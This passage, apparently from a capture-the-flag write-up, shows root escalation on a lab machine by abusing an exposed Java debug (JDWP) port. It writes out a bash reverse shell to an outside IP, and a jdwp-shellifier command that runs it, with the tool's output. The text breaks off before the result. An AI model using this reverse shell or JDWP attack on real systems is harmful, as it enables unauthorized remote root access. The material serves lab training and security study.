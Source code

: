 ### jdb

I can use `jdb` to connect to the debug interface. I'll forward my local
post 223 (arbitrary choice on my part) to 8000 on AI over SSH the same
way as above, and then connect:



    root@kali# jdb -attach localhost:223
    Set uncaught java.lang.Throwable
    Set deferred uncaught java.lang.Throwable
    Initializing jdb ...
    >



[This article from
IOActive](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)
is a really good run down of how JDWP works, and how to exploit it.

There's a lot of things I could try here, but none worked really well.

### Shell

There's a script that I can use from GitHub,
[jwdp-shellifier](https://github.com/IOActive/jdwp-shellifier). To keep
the process simple, I'll write a shell script in `/dev/shm/`:



    alexa@AI:~$ cat /dev/shm/.df.sh 
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.6/443 0>&1



Now I'll start a listener, and run the `jwdp-shellifier`:



    root@kali# python /opt/jdwp-shellifier/jdwp-shellifier.py -t 127.0.0.1 -p 223 --cmd '/dev/shm/.df.sh'
    [+] Targeting '127.0.0.1:223'
    [+] Reading settings for 'OpenJDK 64-Bit Server VM - 11.0.4'
    [+] Found Runtime class: id=a9e
    [+] Found Runtime.getRuntime(): id=7fa928023910
    [+] Created break event id=2
    [+] Waiting for an event on 'java.net.ServerSocket.accept'
    [+] Received matching event from thread 0x1
    [+] Selected payload '/dev/shm/.df.sh'
    [+] Command string object created id:b43
    [+] Runtime.getRuntime() returned context id:0xb44
    [+] found Runtime.exec(): id=7fa928023948
    [+] Runtime.exec() successful, retId=b45
    [!] Command successfully executed



It takes a minute or two to run to completion, but when it does:
